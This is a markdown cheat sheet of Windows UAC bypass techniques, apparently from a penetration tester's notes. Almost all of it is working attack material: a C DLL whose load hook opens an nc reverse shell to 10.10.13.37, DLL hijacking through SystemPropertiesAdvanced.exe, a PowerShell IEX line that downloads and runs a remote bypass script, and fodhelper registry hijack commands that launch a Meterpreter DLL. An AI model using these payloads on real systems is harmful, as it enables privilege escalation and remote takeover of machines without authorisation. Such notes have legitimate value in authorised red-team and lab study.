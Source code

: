 ```yaml
---
description: User Account Control
---
```


# UAC Bypass

* [https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)




## SystemPropertiesAdvanced.exe



### srrstr.dll

{% code title="main.c" %}
```c
 #include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```
{% endcode %}

Compile on Kali:

```
$ i686-w64-mingw32-g++ main.c -lws2_32 -o srrstr.dll -shared
```



### DLL Hijacking

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\srrstr.dll` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)
* [https://www.youtube.com/watch?v=krC5j1Ab44I&t=3570s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3570s)




## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)

```
PS > IEX(New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/snovvcrash/362be57caaa167e7f5667156ac80f445/raw/1990959bc80b56179863aede06695bc499249744/Bypass-UAC.ps1')
PS > Bypass-UAC -C "C:\Users\snovvcrash\music\met.exe"
```




## fodhelper

* [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Create and set registry values (the payload is generated with [`charlotte.py`](/pentest/infrastructure/ad/av-evasion.md#charlotte)):

```
PS > New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
PS > New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
PS > Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "rundll32 C:\Windows\System32\spool\drivers\color\met.dll, SUJIzDKv" -Force
```

Trigger `fodhelper.exe`:

```
PS > Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Cleanup:

```
PS > Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```




## Tricks

Bypass UAC for file read/write:

```
Cmd > net use A: \\127.0.0.1\C$
Cmd > A:
Cmd > cd \Windows\System32
Cmd > echo test > test.txt
Cmd > dir test.txt
```

